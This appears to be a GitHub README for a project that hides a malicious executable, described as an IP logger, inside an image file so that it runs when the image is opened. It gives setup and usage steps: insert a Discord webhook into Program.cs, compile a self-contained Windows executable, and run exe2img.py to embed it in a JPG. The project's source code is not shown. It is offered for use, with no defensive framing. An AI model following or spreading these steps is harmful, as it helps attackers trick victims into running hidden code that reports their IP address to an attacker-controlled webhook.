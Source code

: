 ## Introduction
This project attempts to embed a malicious executable into an image file, such that the executable, in this case, a simple IP logger, is run whenever the image is opened.

## Requirements

1. Download [WinRAR](https://www.rarlab.com/download.htm?source=post_page-----81ee5339707e---------------------------------------) and [ImageMagick](https://imagemagick.org/script/download.php), and add WinRAR folder to the system environment variables

2. Install the dependencies
```
pip install wand
dotnet add package Newtonsoft.Json
dotnet add package System.Management
```

## Usage

1. Add your discord webhook in `Program.cs` and compile with
```
dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:EnableCompressionInSingleFile=true -o dist
```
2. Run `exe2img.py` to embed the executable into an image
```
python exe2img.py -e your_executable.exe -i your_image.jpg
```